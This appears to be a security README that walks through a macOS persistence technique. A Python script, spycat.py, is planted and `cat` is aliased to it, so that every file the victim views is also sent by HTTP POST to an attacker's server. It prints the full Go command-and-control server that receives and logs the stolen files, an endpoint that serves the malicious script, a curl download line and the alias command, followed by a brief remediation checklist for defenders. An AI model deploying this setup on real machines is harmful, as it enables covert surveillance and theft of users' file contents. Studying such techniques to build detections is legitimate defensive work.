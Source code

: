 
Assuming the Attacker is already on the target machine and would like to
establish some level of persistence on the Victim machine.
One possible way to achieve this is by modifying a binary that exists on the Victim's machine.
In a very simple form this results in the victim executing a binary they use everyday and in the
process also execute something for the Attacker. 
The Victim does not notice any difference in behviour of the standard binary.


## Scenario
This simple example with showcase how a python script can be planted on the Victim
machine and the `.bash_profile` can be updated to include and alias to this script.
The example script executes when `cat` is called on a file.
Simultaneously the contents of the file are sent to the Attacker.

```
┌───────────────┐              ┌───────────────┐
│    Victim     │              │    Attacker   │
│               │              │               │
│   spycat.py   │              │     C2.go     │
│               │              │               │
│   http POST   ├──────────────►   (log.txt)   │
│               │              │               │
└───────────────┘              └───────────────┘
```

The Victim machine will be MacOS in this case.
The Attacker machine is linux running a custom golang http server.


### Attacker Setup
The GoLang server has a single endpoint which accepts the `POST` of file data.
It writes the output to a log file `log.txt`.

Its composition is as such...

```
package main

import (
  "fmt"
  "net/http"
  "log"
  "os"
  "bytes"
  "io"
)


func ReceiveFile(w http.ResponseWriter, r *http.Request) {
    r.ParseMultipartForm(32 << 20) // limit your max input length!
    var buf bytes.Buffer
    file, header, err := r.FormFile("file")
    if err != nil {
        panic(err)
    }
    defer file.Close()
    //name := strings.Split(header.Filename, ".")
    name := header.Filename
    fmt.Printf("File name %s\n", name)
    io.Copy(&buf, file)
    contents := buf.String()
    fmt.Println(contents)
    os.WriteFile(name, buf.Bytes(), 0600)
    buf.Reset()
    return
}


func handler(w http.ResponseWriter, r *http.Request) {
  switch r.Method {
  case "POST":
    ReceiveFile(w, r)
  default:
    fmt.Fprintf(w, "Hello world")
  }
}


func main() {
  fmt.Println("Starting Server")
  http.HandleFunc("/", handler)
  log.Fatal(http.ListenAndServe(":9999", nil))
}

```

The go server can be started using `go run server.go`.

As a bonus let's add another endpoint which will simply allow for downloading the malicious script.

GET request
```
  case "GET":
    filename := "spycat.py"
    body, _ := os.ReadFile(filename)
    fmt.Fprintf(w, string(body[:]))
```

Full script can be found in the `examples` directory in `server.go`.

This script can be downloaded using any HTTP delivery mechanism,
for testing try it as CURL

```
curl -s https://localhost:8080/spycat >> spycat.py
```

### Victim Setup

A Python script can be created on the Victim machine which leverages the default
Python interpreter installed on MacOS.
Create the script on the machine or download from the Attackers C2 server.

Create an alias that points the normal `cat` command to the malicious version.

```
alias cat="python <absolute_path_to_file>/spycat.py"
```

Now whenever the Vicitim `cat`s a file the content will be displayed to there terminal as well as sent to the Attacker.

## Remediation
* Read this blogpost, ie ingest this information into TIP platform (URL, filehash)
* Update endpoint signatures or create rule
* Threat hunt for any activity
* Block malicious domains and urls on the firewall

[] Show XQL for finding this activity
[] Create BIOC and correlation rule in XDR/XSIAM
[] Automation Remediation Playbook
[] Blocking on EDL/within XDR
[] Enriching/Tracking in XSIAM/XSOAR TIM
